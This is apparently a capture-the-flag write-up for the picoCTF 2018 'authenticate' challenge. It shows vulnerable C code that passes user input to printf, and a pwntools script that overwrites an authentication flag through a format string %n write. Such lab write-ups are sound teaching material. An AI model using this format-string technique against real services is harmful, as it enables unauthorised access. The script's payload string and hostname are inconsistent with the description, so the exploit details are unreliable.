 authenticate - Points: 350
===========

## Description

> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 43438

## Hint:

> *  What happens if you say something OTHER than yes or no?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}

void read_flag() {
  if (!authenticated) {
    printf("Sorry, you are not *authenticated*!\n");
  }
  else {
    printf("Access Granted.\n");
    flag();
  }

}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  printf("Would you like to read the flag? (yes/no)\n");

  fgets(buf, sizeof(buf), stdin);
  
  if (strstr(buf, "no") != NULL) {
    printf("Okay, Exiting...\n");
    exit(1);
  }
  else if (strstr(buf, "yes") == NULL) {
    puts("Received Unknown Input:\n");
    printf(buf);
  }
  
  read_flag();

}
```

## Useful Information

Format String Bug :
> * printf(buf);

If authenticated != 0 we get flag :exclamation: 

## Exploit

**REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)
**Write a new value for authenticated with the Format String Bug :**

```python
#!/usr/bin/python2.7
from pwn import *

rem = remote("2018shell3.picoctf.com",43438)
rem.recv(4096)
aut_adr=0x804a04c

rem.sendline(p32(aut_adr)+"%%11$n")
rem.interactive()

```

